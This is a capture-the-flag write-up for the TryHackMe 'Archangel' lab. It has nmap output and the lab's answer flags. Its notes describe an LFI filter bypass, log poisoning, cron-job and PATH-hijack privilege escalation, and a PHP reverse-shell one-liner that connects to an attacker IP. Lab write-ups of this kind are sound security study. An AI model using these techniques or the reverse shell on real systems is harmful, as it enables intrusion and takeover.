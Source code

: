 TryHackMe.com

box = Archangel

export IP=10.10.35.201

# NMAP SCANS

```
Starting Nmap 7.91 (https://nmap.org) at 2021-02-07 07:11 EST
Nmap scan report for 10.10.35.201 (10.10.35.201)
Host is up (0.42s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/.
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/7%OT=22%CT=1%CU=33561%PV=Y%DS=4%DC=T%G=Y%TM=601FD943
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11N
OS:W6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R
OS:=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   123.73 ms 10.4.0.1 (10.4.0.1)
2   ... 3
4   430.03 ms 10.10.35.201 (10.10.35.201)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 51.71 seconds

```


# INTERESTING FINDS

• hostname=mafialive.thm
• /robots.txt page found on mafialive.thm which contains test.php
• LFI on test.php


# TASKS

1. Find a different hostname = mafialive.thm
2. Flag 1? = thm{f0und_th3_r1ght_h0st_n4m3}
3. Page under development = test.php
4. Flag 2? = thm{explo1t1ng_lf1}
5. Get a shell and find the user flag = thm{lf1_t0_rc3_1s_tr1cky}
6. Get user2 flag = thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}
7. Root the machine and root flag = thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n} 


## PRIVILEGE ESCALATION VECTORS
Methods Used:
 
 *Horizontal Privilege Escalation
   
   1) abusing write permission at cron job running as archangel user.
   2) by appending a reverse shell script on the cron job, we can login as archangel user.
 
 *Vertical Privilege Escalation
   1) looking at the /secret directory in archangel user, we can see that it using cp without preprending a path.
   2) we create malicious cp command that runs /bin/bash -p when called.
   3) running the backup file, will cause vertical privilege escalation.


## NOTES
• Connect to mafialive.thm
• sudo nano /etc/hosts
• by using nmap we can see /robots.txt page
• in the php filter wrapper: resource = (file or directory which the file reside)
• we can bypass LFI filters by ..//..//
• PHP reverse shell: php -r ‘$sock=fsockopen(“10.4.21.189”,9000);exec(“/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3”);’
• we can poison the access.log by adding a reverse shell script on user-agent via burp